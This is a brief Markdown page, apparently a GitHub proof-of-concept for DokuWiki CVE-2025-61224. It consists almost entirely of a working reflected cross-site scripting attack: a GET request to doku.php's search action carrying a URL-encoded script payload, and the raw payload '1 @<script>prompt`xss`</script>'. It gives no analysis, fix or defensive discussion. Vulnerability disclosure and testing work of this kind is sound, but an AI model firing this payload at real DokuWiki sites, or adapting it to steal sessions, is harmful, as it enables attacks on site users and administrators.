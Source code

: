 # DokuWiki
# CVE-2025-61224
- ***poc:***  *GET https://<host>/dokuwiki/doku.php?id=start&do=search&q=1%20%40%3Cscript%3Eprompt%60xss%60%3C%2fscript%3E*
- ***Payload:*** ```1 @<script>prompt`xss`</script>```
